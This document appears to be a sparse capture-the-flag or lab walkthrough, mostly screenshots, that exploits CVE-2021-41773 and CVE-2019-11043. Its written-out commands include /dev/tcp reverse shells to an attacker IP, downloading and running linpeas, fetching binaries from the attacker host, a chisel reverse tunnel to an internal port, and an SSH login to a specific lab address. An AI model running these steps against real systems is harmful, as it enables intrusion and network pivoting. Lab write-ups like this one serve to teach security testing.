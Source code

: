 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b4d4ad3c-1541-447c-a73b-67b7ca1bf72e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0e07a52c-5aa8-4bd7-93be-1fe3457aac05)

https://github.com/thehackersbrain/CVE-2021-41773

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5e03e316-d3b7-4187-a977-1b08db74fba6)
```
echo 'sh -i >& /dev/tcp/IP/1234 0>&1' > /tmp/test.sh
bash /tmp/test.sh
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6edf1dfb-f269-4aa0-994a-79eb5dc28257)

```
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
bash linpeas.sh
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4f187bf2-4316-4949-bdcf-8902ed0246b3)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/72e4ebfc-5cc0-41a3-ac9c-35b6b2dda127)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f288dc0d-17c5-4572-b3a7-46a87cb607e8)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9a864a1d-7f09-4478-8b9f-5106f7410759)

CVE-2019-11043

https://github.com/moparisthebest/static-curl?tab=readme-ov-file

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/18460f00-9053-4af5-9108-92c3abc2b7eb)
```
wget http://IP:1234/curl-amd64
chmod +x curl-amd64
./curl-amd64 http://127.0.0.1:80
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6987c432-c67c-409f-8dc2-91cc9272f4d0)

https://github.com/jpillora/chisel/releases/tag/v1.9.1
```
./chisel server -p 1234 --reverse
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6d16e017-eb15-4f8f-bbe0-772e4a01f363)
```
wget http://IP:1234/chisel
chmod +x chisel
./chisel client IP_HACK:1234 R:80:127.0.0.1:80
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d051de34-9e9b-452f-9ca3-201704d6cd73)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/eef2862f-a604-4fc4-ae71-2b1a7ef9038f)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a30c2f11-b58c-419d-899a-6fbbb16496ce)

https://github.com/theMiddleBlue/CVE-2019-11043

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/eb553580-a068-406a-9aee-61909880d0fb)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/09a96a75-dd12-425a-869c-0e9631f125c3)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dd5232af-fc2f-470a-8e89-9721c9eb5282)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b4767b80-c7ee-4345-9048-f9ad2b280c32)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e6a7965e-d292-4b55-923c-3cefe8915bc0)
```
echo 'sh -i >& /dev/tcp/IP/443 0>&1' > test.sh
bash test.sh
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0c1e30b4-bf30-40b6-bff1-f81a11a5eef1)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/6c10bb11-47fb-40b8-80a2-7704d73ce88e)
```
ssh edvard@62.173.140.174 -p 18922
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/973b2605-6268-4e25-b85e-4e484dd67c50)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0330dd20-09cb-4370-905b-c919cb2fc433)
